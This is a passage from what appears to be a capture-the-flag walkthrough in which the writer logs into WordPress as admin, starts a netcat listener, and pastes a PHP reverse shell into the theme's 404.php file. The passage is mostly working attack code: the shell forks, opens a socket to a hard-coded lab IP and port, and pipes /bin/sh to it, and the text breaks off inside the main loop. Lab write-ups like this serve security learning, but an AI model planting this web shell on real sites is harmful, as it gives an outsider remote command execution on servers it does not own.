 now we can go to the wordpress login under '/wp-login' and try the credentials. As we see it works!  
Because we are an admin user we can go under 'Appearance > Editor' and edit the '404.php' on the right side.  
First we start a netcat listener on port 4000:

````shell
nc -nlvp 4000
listening on [any] 4000 ...
````

And we paste the reverse shell into the 404.php site:

````php
set_time_limit (0);
$VERSION 	= "1.0";
$ip 		= '10.9.205.135'; 	// Change Your {IP}
$port 		= 4000;       	// Change Your {Port}
$chunk_size 	= 1400;
$write_a 	= null;
$error_a 	= null;
$shell 		= 'uname -a; w; id; /bin/sh -i';
$daemon 	= 0;
$debug 		= 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	if ($pid) {
		exit(0);
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}
	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}
chdir("/");
umask(0);
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}
$descriptorspec = array(
   0 => array("pipe", "r"),
   1 => array("pipe", "w"),
   2 => array("pipe", "w")
);
$process = proc_open($shell, $descriptorspec, $pipes);
if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);
printit("Successfully opened reverse shell to $ip:$port");
while (1) {
	if (feof($sock)) {
````